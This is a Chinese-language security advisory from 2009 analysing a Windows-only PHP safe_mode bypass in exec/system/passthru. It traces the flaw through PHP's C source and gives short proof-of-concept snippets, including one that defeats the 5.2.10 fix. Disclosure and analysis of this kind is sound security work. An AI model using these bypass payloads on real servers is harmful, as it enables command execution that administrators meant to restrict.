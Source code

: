 ### 安全模式下exec等函数安全隐患
> author: 80vul-B Updata:2009-6-19

昨天php5.2.10出来了,fix了PCH-006里提到的bug:

> Fixed bug #45997 (safe_mode bypass with exec/system/passthru (windows only))

然而遗憾的是还有问题,看看php是咋fix这个的:
``` c
...
        b = strrchr(cmd, PHP_DIR_SEPARATOR);
#ifdef PHP_WIN32
        if (b && *b == '\\' && b == cmd) {
// 注意标红的代码:p
            php_error_docref(NULL TSRMLS_CC, E_WARNING, "Invalid absolute path.");
            goto err;
        }
#endif
...
```

恩,fix后执行exec('\dir')会报错,但是exec('80vul\b\dir')依旧会执行:)

PoC:
``` php
<?php
//updata:2009-6-19
// safe_mode=On and safe_mode_exec_dir not set in php.ini
// test on win32

	echo exec('80vul\b\dir');
//	system('80vul\b\dir');
//	passthru('80vul\b\dir');

?>
```

#### 一、前言

就在昨天milw0rm上公布了一个非常有意思的漏洞:PHP <= 5.2.9 Local Safemod Bypass Exploit (win32).作者看到公告后,在php源代码基础上分析了下这个问题的根本原因,于是就有本文.

#### 二、描叙

在php手册了有一节:<被安全模式限制或屏蔽的函数> 给出了受安全模式影响的一些函数如:
  
* backtick operator 本函数在安全模式下被禁用。 
* shell_exec()（在功能上和 backticks 函数相同） 本函数在安全模式下被禁用。 
* exec() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  
* system() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  
* passthru() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  
* popen() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  

细心的朋友可能发现了在安全模式下,对于exec()/system()/passthru()/popen()这4个函数不是被禁用的,只是需要在safe_mode_exec_dir目录下执行,但当safe_mode=on且safe_mode_exec_dir为空时[默认为空],php在处理这一过程中存在安全隐患,在windows下exec()/system()/passthru()可以通过引入\来执行程序:)
[ps:popen()不存在这个问题,文章后面会给出原因.]

#### 三、代码分析:

以exec()函数为例分析下源码:
``` c
// exec.c
PHP_FUNCTION(exec)
{
	php_exec_ex(INTERNAL_FUNCTION_PARAM_PASSTHRU, 0);
}
// system(),passthru()函数也是调用的php_exec_ex 但popen()不是 
...
static void php_exec_ex(INTERNAL_FUNCTION_PARAMETERS, int mode)
{
	char *cmd;
	int cmd_len;
	zval *ret_code=NULL, *ret_array=NULL;
	int ret;
...
		if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "s|z/z/", &cmd, &cmd_len, &ret_array, &ret_code) == FAILURE) {
			RETURN_FALSE;
		}
...
	if (!ret_array) {
		ret = php_exec(mode, cmd, NULL, return_value TSRMLS_CC);
...
int php_exec(int type, char *cmd, zval *array, zval *return_value TSRMLS_DC)
{
...
	if (PG(safe_mode)) {
		if ((c = strchr(cmd, ' '))) {
			*c = '\0';
			c++;
		}
// 取cmd中的参数部分

		if (strstr(cmd, "..")) {
			php_error_docref(NULL TSRMLS_CC, E_WARNING, "No '..' components allowed in path");
			goto err;
		}
// 不允许使用..来跳转目录 ,这个也是php手册描叙不让..的处理代码

		b = strrchr(cmd, PHP_DIR_SEPARATOR);
// 在win下PHP_DIR_SEPARATOR为\,*nix下为/,具体定义在main/php.h
// 如果cmd是80vul\b\dir,那么这部分取得的值是\dir

		spprintf(&d, 0, "%s%s%s%s%s", PG(safe_mode_exec_dir), (b ? "" : "/"), (b ? b : cmd), (c ? " " : ""), (c ? c : ""));
// 这句是这个安全隐患的关键处
// 如果php.ini中没有设置safe_mode_exec_dir的话,80vul\dir经过上面的处理为\dir[如果直接提交dir则会被处理为/dir]
// 这个也是需要"safe_mode_exec_dir为空时[默认为空]"的原因

		if (c) {
			*(c - 1) = ' ';
		}
		cmd_p = php_escape_shell_cmd(d);
// 这里调用了php_escape_shell_cmd处理

...
#ifdef PHP_WIN32
	fp = VCWD_POPEN(cmd_p, "rb");
#else
	fp = VCWD_POPEN(cmd_p, "r");
#endif
...
char *php_escape_shell_cmd(char *str) {
	register int x, y, l;
	char *cmd;
	char *p = NULL;
	
	TSRMLS_FETCH();

	l = strlen(str);
	cmd = safe_emalloc(2, l, 1);
	
	for (x = 0, y = 0; x < l; x++) {
// 这里用的strlen,所以这个函数是not safe binary
		int mb_len = php_mblen(str + x, (l - x));

		/* skip non-valid multibyte characters */
		if (mb_len < 0) {
			continue;
		} else if (mb_len > 1) {
			memcpy(cmd + y, str + x, mb_len);
			y += mb_len;
			x += mb_len - 1;
			continue;
		}
// 这部分代码是为了补se牛提出的那个编码问题:p
// http://www.sektioneins.de/advisories/SE-2008-03.txt

		switch (str[x]) {
...
			case '\\':
...
#ifdef PHP_WIN32
			/* since Windows does not allow us to escape these chars, just remove them */
			case '%':
				cmd[y++] = ' ';
				break;
// 如果是win下的话,就把\等特殊字符去掉
// 那么\dir经过此函数处理后就变成dir了:)
#endif
				cmd[y++] = '\\';
				/* fall-through */
			default:
				cmd[y++] = str[x];
...

// tsrm_win32.c
TSRM_API FILE *popen_ex(const char *command, const char *type, const char *cwd, char *env)
{
...
	cmd = (char*)malloc(strlen(command)+strlen(TWG(comspec))+sizeof(" /c "));
	sprintf(cmd, "%s /c %s", TWG(comspec), command);
	if (!CreateProcess(NULL, cmd, &security, &security, security.bInheritHandle, NORMAL_PRIORITY_CLASS|CREATE_NO_WINDOW, env, cwd, &startup, &process)) {
// 调用CreateProcess创建线程,执行命令
		return NULL;
	}
```

下面看下popen()的代码:
``` c
PHP_FUNCTION(popen)
{
....
	if (PG(safe_mode)){
		b = strchr(Z_STRVAL_PP(arg1), ' ');
		if (!b) {
			b = strrchr(Z_STRVAL_PP(arg1), '/'); 
\\直接使用的 / ,根本没有考虑windows系统下对\的支持,所以也就不存在上面的问题
		} else {
			char *c;
			c = Z_STRVAL_PP(arg1);
			while((*b != '/') && (b != c)) {
				b--;
			}
			if (b == c) {
				b = NULL;
			}
		}
		
		if (b) {
			spprintf(&buf, 0, "%s%s", PG(safe_mode_exec_dir), b);
		} else {
			spprintf(&buf, 0, "%s/%s", PG(safe_mode_exec_dir), Z_STRVAL_PP(arg1));
		}

		tmp = php_escape_shell_cmd(buf);
		fp = VCWD_POPEN(tmp, p);  
....
```

#### 四、测试代码

PoC:
``` php
<?php

// safe_mode=On and safe_mode_exec_dir not set in php.ini
// test on win32

	echo exec('\dir');
//	system('\dir');
//	passthru('\dir');

?>
``` 
#### 五、实际利用:

PHP <= 5.2.9 SafeMod Bypass Vulnerability [by www.abysssec.com]
http://www.milw0rm.com/exploits/8799
